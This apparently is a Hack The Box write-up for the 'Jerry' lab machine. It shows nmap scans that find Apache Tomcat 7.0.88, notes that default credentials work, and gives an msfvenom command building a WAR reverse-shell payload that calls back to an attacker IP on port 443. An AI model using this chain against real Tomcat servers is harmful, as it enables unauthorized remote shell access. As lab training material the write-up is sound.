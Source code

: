 # Jerry Writeup

Inital nmap scan... 8080 is open.
```
# Nmap 7.93 scan initiated Mon May 29 17:56:40 2023 as: nmap -Pn -n -p- -T4 -oN inital_scan 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.025s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

# Nmap done at Mon May 29 17:58:08 2023 -- 1 IP address (1 host up) scanned in 88.98 seconds
```

Apache Tomcat is running on 8080.
```
# Nmap 7.93 scan initiated Thu Jun  1 20:56:51 2023 as: nmap -Pn -n -sVC -T4 -p 8080 -oN enum_scan 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.023s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  1 20:57:04 2023 -- 1 IP address (1 host up) scanned in 13.38 seconds
```

Tomcat is installed, but not configured properly... default credentials allows you in.

File upload can be done with a .war file. Let's make a payload and run a listener.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war > shell.war
```

Open the war file to see what the file will be called.

Copy the name into the URL to 'call' the file, make sure listener is up.

Get root.


[<img height="600" width="600px" src="https://github.com/zmiddle/htb/blob/main/jerry/jerry_pwned.png" />](https://www.hackthebox.com/achievement/machine/259690/144) 
